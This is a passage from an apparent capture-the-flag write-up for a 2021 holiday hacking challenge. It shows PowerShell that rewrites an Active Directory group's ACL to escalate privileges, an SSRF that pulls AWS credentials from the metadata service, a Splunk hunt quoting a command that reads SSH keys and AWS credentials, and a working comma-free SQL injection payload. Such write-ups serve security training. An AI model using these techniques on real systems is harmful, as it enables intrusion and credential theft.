InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : ELFU\Enterprise Key Admins
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : None

ActiveDirectoryRights : Self
InheritanceType       : Descendents
ObjectType            : 9b026da6-0d3c-465c-8bee-5199d7165cba
InheritedObjectType   : bf967a86-0de6-11d0-a285-00aa003049e2
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : CREATOR OWNER
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : Self
InheritanceType       : Descendents
ObjectType            : 9b026da6-0d3c-465c-8bee-5199d7165cba
InheritedObjectType   : bf967a86-0de6-11d0-a285-00aa003049e2
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : NT AUTHORITY\SELF
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : ReadProperty
InheritanceType       : Descendents
ObjectType            : b7c69e6d-2cc7-11d2-854e-00a0c983f608
InheritedObjectType   : bf967a86-0de6-11d0-a285-00aa003049e2
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : ReadProperty
InheritanceType       : All
ObjectType            : b7c69e6d-2cc7-11d2-854e-00a0c983f608
InheritedObjectType   : bf967a9c-0de6-11d0-a285-00aa003049e2
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : None

ActiveDirectoryRights : ReadProperty
InheritanceType       : Descendents
ObjectType            : b7c69e6d-2cc7-11d2-854e-00a0c983f608
InheritedObjectType   : bf967aba-0de6-11d0-a285-00aa003049e2
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : WriteProperty
InheritanceType       : Descendents
ObjectType            : ea1b7b93-5e48-46d5-bc6c-4df4fda78a35
InheritedObjectType   : bf967a86-0de6-11d0-a285-00aa003049e2
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : NT AUTHORITY\SELF
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : GenericRead
InheritanceType       : Descendents
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 4828cc14-1437-45bc-9b07-ad6f015e5f28
ObjectFlags           : InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Pre-Windows 2000 Compatible Access
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : GenericRead
InheritanceType       : All
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : bf967a9c-0de6-11d0-a285-00aa003049e2
ObjectFlags           : InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Pre-Windows 2000 Compatible Access
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : None

ActiveDirectoryRights : GenericRead
InheritanceType       : Descendents
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : bf967aba-0de6-11d0-a285-00aa003049e2
ObjectFlags           : InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Pre-Windows 2000 Compatible Access
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : ReadProperty, WriteProperty
InheritanceType       : All
ObjectType            : 3f78c3e5-f79a-46bd-a0b8-9d18116ddc79
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : NT AUTHORITY\SELF
IsInherited           : True
InheritanceFlags      : ContainerInherit, ObjectInherit
PropagationFlags      : None

ActiveDirectoryRights : ReadProperty, WriteProperty, ExtendedRight
InheritanceType       : All
ObjectType            : 91e647de-d96f-4b70-9557-d63ff4f3ccd8
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : NT AUTHORITY\SELF
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : None

ActiveDirectoryRights : GenericAll
InheritanceType       : All
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ELFU\Enterprise Admins
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : None

ActiveDirectoryRights : ListChildren
InheritanceType       : All
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : BUILTIN\Pre-Windows 2000 Compatible Access
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : None

ActiveDirectoryRights : CreateChild, Self, WriteProperty, ExtendedRight, Delete, GenericRead, WriteDacl, WriteOwner
InheritanceType       : All
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : BUILTIN\Administrators
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : None
```

Indeed, it does, so let's add our account. Note that this portion was completed on a different day than the previous so the username is new (must register each day):
```shell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "ncyamjpmrf"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

Next, we need to add the account to the group:
```shell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "ncyamjpmrf"
$password = "Qvytndxki!"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

Now, the account is a member of the group:

```shell
[10.128.1.53]: PS C:\Users\remote_elf\Documents> (Get-ADUser ncyamjpmrf -Properties MemberOf).MemberOf
CN=Research Department,CN=Users,DC=elfu,DC=local
```

It takes a while to propagate, but eventually we will be able to access the share drive for the research department (note that the location of the share drive changed when the game was reset at midnight):
```shell
ncyamjpmrf@grades:~$ smbclient -U $USER \\\\172.17.0.4\\research_dep
Enter WORKGROUP\ncyamjpmrf's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34452028 blocks available
smb: \> get SantaSecretToAWonderfulHolidaySeason.pdf
getting file \SantaSecretToAWonderfulHolidaySeason.pdf of size 173932 as SantaSecretToAWonderfulHolidaySeason.pdf (56616.6 KiloBytes/sec) (average 56618.5 KiloBytes/sec)
smb: \> exit
```

Now, we just have to `scp` to our local machine to view the PDF document:
```shell
ncyamjpmrf@grades:~$ logout
Connection to grades.elfu.org closed.
stefmolin@penguin ~ % scp -P 2222 ncyamjpmrf@grades.elfu.org:~/SantaSecretToAWonderfulHolidaySeason.pdf ~/Desktop/
Warning: Permanently added '[grades.elfu.org]:2222,[34.69.96.229]:2222' (ECDSA) to the list of known hosts.
ncyamjpmrf@grades.elfu.org's password:
SantaSecretToAWonderfulHolidaySeason.pdf                                                         100%  170KB   1.3MB/s   00:00
```

Inspect the PDF document to find the answer to the challenge: `Kindness`.

### 9. Splunk!
#### Difficulty
3/5

#### Description
Help Angel Candysalt solve the Splunk challenge in Santa's great hall. Fitzy Shortstack is in Santa's lobby, and he knows a few things about Splunk. What does Santa call you when when you complete the analysis?

#### Solution

There are 8 tasks to solve in order to complete the objective:

##### Task 1
>Capture the commands Eddie ran most often, starting with git. Looking only at his process launches as reported by Sysmon, record the most common git-related CommandLine that Eddie seemed to use.

Using this query, the answer is `git status`:
```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational
CommandLine="git*" EventCode=1 | stats count by CommandLine | sort count desc
```

##### Task 2
>Looking through the git commands Eddie ran, determine the remote repository that he configured as the origin for the 'partnerapi' repo. The correct one!

This can be completed by just looking through the results from the previous command: `git@github.com:elfnp3/partnerapi.git`.

##### Task 3

>The 'partnerapi' project that Eddie worked on uses Docker. Gather the full docker command line that Eddie used to start the 'partnerapi' project on his workstation.

Modify the query from task 1 to look for Docker commands:

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational
CommandLine="docker*" EventCode=1 | stats count by CommandLine | sort count desc
```

The answer is `docker compose up`.

##### Task 4
>Eddie had been testing automated static application security testing (SAST) in GitHub. Vulnerability reports have been coming into Splunk in JSON format via GitHub webhooks. Search all the events in the main index in Splunk and use the sourcetype field to locate these reports. Determine the URL of the vulnerable GitHub repository that the elves cloned for testing and document it here. You will need to search outside of Splunk (try GitHub) for the original name of the repository.

Locate the events in question using the sample Splunk query provided in the links at the top:

```
index=main sourcetype=github_json
```

Then, scroll down to the `repository.url` field in the left sidebar. This shows some possible URLs:



Notice the `dvws-node` portion of two of the URLs &ndash; this could have been forked from the outside, so use a search engine to find it on GitHub. Indeed, it's [this](https://github.com/snoopysecurity/dvws-node) repository.

##### Task 5
>Santa asked Eddie to add a JavaScript library from NPM to the 'partnerapi' project. Determine the name of the library and record it here for our workshop documentation.

These dependencies are stored in `package.json`. The following query looks for any `git commit` commands in which the log mentions both "partnerapi" and "package.json":

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational
CommandLine="git commit*" partnerapi package.json | table CommandLine
```

This yields a single commit message with the solution `holiday-utils-js`:

```
git commit package.json -m Added holiday-utils-js dependency
```

##### Task 6
>Another elf started gathering a baseline of the network activity that Eddie generated. Start with [their search](https://hhc21.bossworkshops.io/en-US/app/SA-hhc/search?q=search%20index%3Dmain%20sourcetype%3Djournald%20source%3DJournald%3AMicrosoft-Windows-Sysmon%2FOperational%20EventCode%3D3%20user%3Deddie%20NOT%20dest_ip%20IN%20(127.0.0.*)%20NOT%20dest_port%20IN%20(22%2C53%2C80%2C443)%20%0A%7C%20stats%20count%20by%20dest_ip%20dest_port&display.page.search.mode=smart&dispatch.sample_ratio=1&workload_pool=&earliest=0&latest=now) and capture the full `process_name` field of anything that looks suspicious.

Simply add `process_name` to the end of the query so that it includes it in the result. There are only two entries and the suspicious one stands out:

```
/usr/bin/nc.openbsd
```

##### Task 7
>Uh oh. This documentation exercise just turned into an investigation. Starting with the process identified in the previous task, look for additional suspicious commands launched by the same parent process. One thing to know about these Sysmon events is that Network connection events don't indicate the parent process ID, but Process creation events do! Determine the number of files that were accessed by a related process and record it here.

Start by getting the parent process ID of the `/usr/bin/nc.openbsd` process launch:
```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational
EventCode=1 user=eddie process_name=/usr/bin/nc.openbsd
| table parent_process_id, parent_process, process_name
```

Then use this to search for other child processes of that parent process:
```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational
parent_process_id=6788 | table CommandLine
```

There are only two and only one contains files (6 of them):

```
cat /home/eddie/.aws/credentials /home/eddie/.ssh/authorized_keys /home/eddie/.ssh/config /home/eddie/.ssh/eddie /home/eddie/.ssh/eddie.pub /home/eddie/.ssh/known_hosts
```

##### Task 8
>Use Splunk and Sysmon Process creation data to identify the name of the Bash script that accessed sensitive files and (likely) transmitted them to a remote IP address.

This is simply taking the previous query task one step further. In order for a script to have initiated the actions investigated in task 7, it had to have created a new process; therefore, we want the parent process of the Bash process whose child processes we were just investigating (6788):

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational
EventCode=1 user=eddie process_id=6788 | table parent_process_id, parent_process, process_name
```

The parent is a `preinstall.sh`.

Solving this yields the phrase to mark the objective complete:

>Thank you for helping Santa complete his investigation! Santa says you're a whiz!

### 10. Now Hiring!
#### Difficulty
3/5

#### Description
What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.

#### Solution

Noxious O. D'or hinted about an SSRF (server-side request forgery) vulnerability on the website, so we need to find some spot where we provide information to the server, like a form. The [Apply](https://apply.jackfrosttower.com/?p=apply) page has just that. In fact, it has a URL field, which comes prefilled with another website that's worth checking out: [North Pole Police Department](https://nppd.northpolechristmastown.com/). Take a look at the [Infractions](https://nppd.northpolechristmastown.com/infractions) page, which contains information that the job application is requesting.

If you try to make up information, you just get "Submission Accepted", but if you use information from the NPPD website, you get additional content like "Naughty list recipients rejoice!" and "We'll be in touch." along with a broken link to a picture of the person/troll/thing? whose name you used.

Example using Suzanne Hart: https://apply.jackfrosttower.com/?inputName=Suzanne+Hart&inputEmail=sh%40troll.com&inputPhone=1&inputField=Throwing+rocks+%28at+people%29&resumeFile=&inputWorkSample=http%3A%2F%2F169.254.169.254&additionalInformation=&submit=


What's wrong with that image though? Could it be coming from the NPPD website (or at least it's intended to come from there)? Taking a look at this page on it's own in the browser reveals an interestingly different error message:


Did the server make that request on our behalf though? Try using cURL on that same endpoint:

```shell
$ curl https://apply.jackfrosttower.com/images/Suzanne%20Hart.jpg
latest
```

Bingo! The request was made on our behalf and the result is there. Now, we can modify the form submission URL to pull out the information that we need. The key is what was hinted at in the IMDS challenge - the IAM security credentials. Modify the application to hit the `/latest/meta-data` endpoint and look for `iam/security-credentials` when using the above cURL command. You'll see one for `jf-deploy-role` so update the application to `/latest/meta-data/iam/security-credentials/jf-deploy-role`:

https://apply.jackfrosttower.com/?inputName=Suzanne+Hart&inputEmail=sh%40troll.com&inputPhone=1&inputField=Throwing+rocks+%28at+people%29&resumeFile=&inputWorkSample=http%3A%2F%2F169.254.169.254%2Flatest%2Fmeta-data%2Fiam%2Fsecurity-credentials%2Fjf-deploy-role&additionalInformation=&submit=


Like before, use cURL to read the response and get the secret access key:

```shell
curl https://apply.jackfrosttower.com/images/Suzanne%20Hart.jpg
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}
```

### 11. Customer Complaint Analysis
#### Difficulty
2/5

#### Description
A human has accessed the Jack Frost Tower network with a non-compliant host. [Which three trolls complained about the human](https://downloads.holidayhackchallenge.com/2021/jackfrosttower-network.zip)? Enter the troll names in alphabetical order separated by spaces. Talk to Tinsel Upatree in the kitchen for hints.

#### Solution

After talking to Tinsel Upatree, we learn about the "evil bit". Given the context, compliance here means setting the "evil bit" to 1, so first look for any HTTP activity with that not set with the following filters in Wireshark (the PCAP is in the zip linked in the description):

```
ip.flags.rb == 0 and http
```

This brings up a complaint from a Muffy VonDuchess Sebastian in room 1024 (information is from the POST request Muffy made to the complaint endpoint). Create another search to see which trolls complained about the guest in that room. The complaints were made by Flud, Hagg, and Yaqh:

```
ip.flags.rb == 1 and http.request.method == POST and http.file_data contains "1024"
```

### 12. Frost Tower Website Checkup
#### Difficulty
5/5

#### Description
Investigate [Frost Tower's website for security issues](https://staging.jackfrosttower.com/). This [source code](https://download.holidayhackchallenge.com/2021/frosttower-web.zip) will be useful in your analysis. In Jack Frost's TODO list, what job position does Jack plan to offer Santa? Ribb Bonbowford, in Santa's dining room, may have some pointers for you.

#### Solution
Looking at the source code, the `/search` endpoint looks juicy, but we need to be authenticated for that. The source code for that endpoint is checking authentication by verifying that `session.uniqueID` has a value.

```javascript
app.get('/search', function(req, res, next) {
    session = req.session;

    if (session.uniqueID){

        var search = req.query.key;
        search = "%" + search + "%"

        tempCont.query("SELECT * from uniquecontact WHERE full_name like "+tempCont.escape(search)+" OR email like "+tempCont.escape(search)+" OR phone like "+tempCont.escape(search)+" order by id desc", function(error, rows, fields){

            if (error) {
                console.log(error);
                res.sendStatus(500);
            }

            var rowdata = rows.length;

            //set default variables
            var totalRecord = rowdata,
                pageSize = 10,
                pageCount = Math.ceil(rowdata/10),
                currentPage = 1,
                encontact = rows,
                encontactArrays = [],
                encontactList = [];
            //split list into groups
            while (encontact.length) {
                encontactArrays.push(encontact.splice(0, pageSize));
            }

            //set current page if specifed as get variable (eg: /?page=2)
            if (typeof req.query.page !== 'undefined' && req.query.page == parseInt(req.query.page, 10)) {
                if (req.query.page <= encontactArrays.length) {
                    currentPage = +req.query.page;
                }
            }

            //show list of encontact from group
            encontactList = encontactArrays[+currentPage - 1];
            //render index.ejs view file

            if ( rowdata == "0"){

                res.render('404',
                    {
                        'title': 'Record Not Found!',
                        'userlogin': session.userfullname
                    }

                );
            }else{

                res.render('search',
                    {
                        'title': 'Form Contact',
                        'strcountry': countrybuf_tostring,
                        'encontact': encontactList,
                        'pageSize': pageSize,
                        'totalRecord': totalRecord,
                        'pageCount': pageCount,
                        'currentPage': currentPage,
                        'dateFormat': dateFormat,
                        'csrfToken': req.csrfToken(),
                        'csrfTokenSearch': req.csrfToken(),
                        'key': search,
                        'userlogin': session.userfullname
                    }
                );

            }

        });

    }else{
        res.redirect("/login");
    }

});
```

Further investigation shows that the `/contact` page can be used to set this value if we enter the same information twice:

```javascript
app.post('/postcontact', function(req, res, next){
    var fullname = xss( ReplaceAnyMatchingWords(req.body.fullname) );
    var email = xss( ReplaceAnyMatchingWords( req.body.email) );
    var phone = xss( ReplaceAnyMatchingWords( req.body.phone) );
    var country = xss( ReplaceAnyMatchingWords( req.body.country ) );
    var date = new Date();
    var d = date.getDate();
    var mo = date.getMonth();
    var yr = date.getFullYear();
    var current_hour = date.getHours();
    var date_created = dateFormat(date, "yyyy-mm-dd hh:MM:ss");

    tempCont.query("SELECT * from uniquecontact where email="+tempCont.escape(email), function(error, rows, fields){

        if (error) {
            console.log(error);
            return res.sendStatus(500);
        }

        var rowlength = rows.length;
        if (rowlength >= "1"){
            session = req.session;
            session.uniqueID = email;
            req.flash('info', 'Email Already Exists');
            res.redirect("/contact");

        } else {

            tempCont.query("INSERT INTO uniquecontact (full_name, email, phone, country, date_created) VALUE (?, ?, ?, ?, ?)", [fullname, email, phone, country, date_created], function(error, rows, fields) {

                if (error) {
                    console.log(error);
                    return res.sendStatus(500);
                }

                res.render('email/e_template_1', { name: fullname }, function (err, data) {

                    // setup email data with unicode symbols
                    var mailOptions = {
                        from: 'Admin <admin@localhost>',
                        to: email,
                        subject: 'Thank you for contacting us!',
                        html: data
                    };

                    //  // send mail with defined transport object
                    //  transporter.sendMail(mailOptions, (error, info) => {
                    //      if (error) {
                    //          return console.log(error);
                    //      }
                    //      console.log('Message sent: %s', info.messageId);
                    //  });

                    session = req.session;
                    req.flash('info', 'Data Saved to Database!');
                    res.redirect("/contact");

                });

            });

        }

    });
});
```

After sending the form information in twice, we can access the `/search` page:



From there, we can access the `/dashboard` page, but the query is properly escaped there. The `/detail` page that we can access from here has a SQL injection vulnerability when you pass in multiple IDs like `https://staging.jackfrosttower.com/detail/957,0%20or%201=1;--`, which gives all of the users back:

```javascript
app.get('/detail/:id', function(req, res, next) {
    session = req.session;
    var reqparam = req.params['id'];
    var query = "SELECT * FROM uniquecontact WHERE id=";

    if (session.uniqueID){

        try {
            if (reqparam.indexOf(',') > 0){
                var ids = reqparam.split(',');
                reqparam = "0";
                for (var i=0; i<ids.length; i++){
                    query += tempCont.escape(m.raw(ids[i]));
                    query += " OR id="
                }
                query += "?";
            }else{
                query = "SELECT * FROM uniquecontact WHERE id=?"
            }
        } catch (error) {
            console.log(error);
            return res.sendStatus(500);
        }

        tempCont.query(query, reqparam, function(error, rows, fields){

            if (error) {
                console.log(error);
                return res.sendStatus(500);
            }

            var rowdata = rows.length;

            if (rowdata == 0){
                res.render('404',
                    {
                        'title': 'Not found!',
                        'userlogin': session.userfullname
                    }
                );
            }else{
                res.render('detail',
                    {
                        'title': 'Detail Contact',
                        'encontact': rows,
                        'dateFormat': dateFormat,
                        'csrfToken': req.csrfToken(),
                        'userlogin': session.userfullname,
                        'userstatus': session.userstatus
                    }
                );
            }
        });
    }else{
        res.redirect("/login");
    }
});
```

Try adding the other table to the end of the result:
```shell
https://staging.jackfrosttower.com/detail/957,0 or 1=1 UNION ALL select * from users;--
```

This yields an error because the second table doesn't have the same structure:
```shell
TypeError: /app/webpage/detail.ejs:29
    27|                             -
    28|                         <% }else { %>
 >> 29|                             <%= dateFormat(encontact.date_update, "mmmm dS, yyyy h:MM:ss") %>
    30|                         <% } %>                     
    31|                         </li>
    32|                     </ul>

Invalid date
    at Object.dateFormat (/app/node_modules/dateformat/lib/dateformat.js:39:17)
    at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:618:12), <anonymous>:45:26)
    at Array.forEach (<anonymous>)
    at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:618:12), <anonymous>:21:18)
    at returnedFn (/app/node_modules/ejs/lib/ejs.js:653:17)
    at tryHandleCache (/app/node_modules/ejs/lib/ejs.js:251:36)
    at View.exports.renderFile [as engine] (/app/node_modules/ejs/lib/ejs.js:482:10)
    at View.render (/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/app/node_modules/express/lib/application.js:640:10)
    at Function.render (/app/node_modules/express/lib/application.js:592:3)
```

The provided source code shows the schema:
```sql
CREATE DATABASE `encontact`;

USE `encontact`;

/*Table structure for table `uniquecontact` */
DROP TABLE IF EXISTS `uniquecontact`;

CREATE TABLE `uniquecontact` (
  `id` int(50) NOT NULL AUTO_INCREMENT,
  `full_name` varchar(255) DEFAULT NULL,
  `email` varchar(255) DEFAULT NULL,
  `phone` varchar(50) DEFAULT NULL,
  `country` varchar(255) DEFAULT NULL,
  `date_created` datetime DEFAULT NULL,
  `date_update` datetime DEFAULT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=33 DEFAULT CHARSET=latin1;


/*Table structure for table `users` */
DROP TABLE IF EXISTS `users`;

CREATE TABLE `users` (
  `id` int(50) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) DEFAULT NULL,
  `email` varchar(255) DEFAULT NULL,
  `password` varchar(255) DEFAULT NULL,
  `user_status` varchar(10) DEFAULT NULL,
  `date_created` datetime DEFAULT NULL,
  `token` varchar(255) DEFAULT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=10 DEFAULT CHARSET=latin1;


/* Table structure for table `emails` */
DROP TABLE IF EXISTS `emails`;

CREATE TABLE `emails` (
    `id` int(50) NOT NULL AUTO_INCREMENT,
    `email` varchar(255) DEFAULT NULL,
    PRIMARY KEY (`id`)
) ENGINE=InnoDB DEFAULT CHARSET=latin1;
```

Adding the following runs a query on the server to add data from the `users` table to the result. We can't use commas in the injection because they will be split apart by the JavaScript code, so we have to use joins:
```sql
0
UNION ALL
SELECT *
FROM (SELECT id FROM users) f1 
JOIN (SELECT password FROM users) f2 ON 1=1 
JOIN (SELECT email FROM users) f3 ON 1=1 
JOIN (SELECT user_status FROM users) f4 ON 1=1
JOIN (SELECT token FROM users) f5 ON 1=1
JOIN (SELECT date_created FROM users) f6 ON 1=1
JOIN (SELECT date_created FROM users) f7 ON 1=1;--
```

Submit this to the endpoint:
```
https://staging.jackfrosttower.com/detail/0,0%20UNION%20ALL%20SELECT%20*%20FROM%20(SELECT%20id%20FROM%20users)%20f1%20JOIN%20(SELECT%20password%20FROM%20users)%20f2%20ON%201=1%20JOIN%20(SELECT%20email%20FROM%20users)%20f3%20ON%201=1%20JOIN%20(SELECT%20user_status%20FROM%20users)%20f4%20ON%201=1%20JOIN%20(SELECT%20token%20FROM%20users)%20f5%20ON%201=1%20JOIN%20(SELECT%20date_created%20FROM%20users)%20f6%20ON%201=1%20JOIN%20(SELECT%20date_created%20FROM%20users)%20f7%20ON%201=1%20LIMIT%2010;--
```

This gives us back proof that the SQL injection works:

